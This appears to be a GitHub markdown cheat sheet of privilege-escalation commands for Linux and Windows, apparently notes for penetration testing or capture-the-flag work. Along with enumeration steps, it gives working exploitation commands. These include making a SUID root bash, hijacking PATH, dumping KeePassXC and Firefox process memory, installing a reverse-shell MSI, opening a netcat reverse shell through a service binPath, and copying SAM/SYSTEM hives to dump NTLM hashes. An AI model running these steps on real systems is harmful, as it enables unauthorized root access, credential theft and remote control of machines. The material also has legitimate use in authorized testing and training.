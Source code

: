 # Linux

## linpeas

Always run this when possible.
`/usr/share/peass/linpeas/linpeas.sh`

## Enumeration

`id` List user ID and groups.
Manually enumerate user home directories for interesting files.
`history` or `less .bash_history` etc. Check shell history.
`ls -al /` Look for signs that user is in a docker container.
`findmnt` Find mounts connected to the system.
`mount` Check for docker container or unsafe mounts.
`export -p` and `env` View/modify environment variables.
`echo $PATH` Check the path.
Relative path program exploits.
`sudo -l` List commands user can run as root.
`find / -perm -4000 2>/dev/null` Find SUID binaries.
Check `/etc/apache2` and `/etc/nginx` for `sites-available` files to enumerate.
Check `/var/www` and `/opt` for interesting files.
`git log -p > all-git-commits.txt` Inspect git commits.
Find web server, git, and other config files that may contain credentials.
Check databases for credentials.
Find SSH key files.
`crontab -l` List user crontab.
`cat /etc/crontab` List system crontab.
`ps auxww | grep root` Investigate interesting root processes.
`pspy` Spy on processes to find cron jobs.
Modify vulnerable shell scripts, config files, environment variables, etc.
`ls -al /var/mail` Check user mail.
`docker` Exploit docker containers.
`kubeletctl` Exploit Kubernetes containers.
Run LinPEAS.
`find / -type f -user username 2>/dev/null` Find interesting files owned by username.
`lsattr` Check for vulnerable file attributes.
`getcap -r / 2>/dev/null` Find tools on the system that can do network stuff.
Get OS kernel and release info with `uname -a`, `lsb_release -a`, or `cat /etc/*release`.
`ss -tlpn` Show all listening ports and processes.
`netstat -ant` Show all TCP services.
`find -perm -o=w 2>/dev/null` Find world-writable files.
## Exploitation

Possible Simple Vector via Sudo
`sudo su`

Create SUID Bash (E.g., Leverage hacked cron job or container root access to host filesystem)
```
cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod 4755 /tmp/bash
```

Execute SUID Bash
`bash -p`

Path Variable Hijacking (e.g., for cron job binary without absolute path)
`export PATH=/tmp:$PATH`

Less (System Pager / Text Scroller) Exploitation :)
`!/path/to/program`

### rbash Breakout

Literally just spawn a different shell. Use GTFOBins if needed.

# Windows

## winPEAS

Always run this when possible.
`/usr/share/peass/winpeas/winPEAS.bat`

## Enumeration

Net User Groups
`net user username`

Whoami Groups
`whoami /groups`

Read PowerShell History
`type c:\users\username\appdata\roaming\microsoft\windows\powershell\psreadline\consolehost_history.txt`

Enumerate Installed Software
```
dir "C:\Program Files"
dir "C:\Program Files (x86)"

Get version info from changelog files.
```

Enumerate Services (even when sc.exe is denied permission)
`reg query "HKLM\System\CurrentControlSet\Services"`

Get Service Details (sc.exe)
`sc.exe qc servicename`

Get Service Details (registry)
`reg query "HKLM\System\CurrentControlSet\Services\servicename"`

List Processes
`get-process`

List processes and associated services (cmd)
`tasklist /svc`

Dump Process Memory. E.g., Firefox, KeePassXC
`procdump.exe -ma pid process.dmp`

Extract Strings from Binary Files
`strings -el process.dmp`

Check for System MSI Install Privs
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Check AppLocker Policy
`get-applockerpolicy -effective | select -expandproperty rulecollections`

Install MSI (Revshell, etc.) File
`msiexec /quiet /i reverse.msi`
## Exploitation

Service Binary Path Revshell
```
Users who are in the "Server Operators" group can modify, start, and stop system services.

Example of revshell via service binary path (e.g., vss service):

sc.exe config servicename binPath="c:\users\username\nc.exe -e cmd.exe ipaddress port"

nc -lvnp port

sc.exe stop servicename
sc.exe start servicename

WARNING: The above shell is unstable and will probably die after seconds.
Use meterpreter instead.
```

Grant Domain User Privs via PowerView
```
. .\PowerView.ps1
add-objectacl -principalidentity username -credential $cred -rights privname
```

Get User NTLM Hashes via Registry Hives
```
Copy the following files to the attack box:
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SYSTEM

Dump the hashes:
samdump2 SYSTEM SAM

(Crack with john, etc.)
```
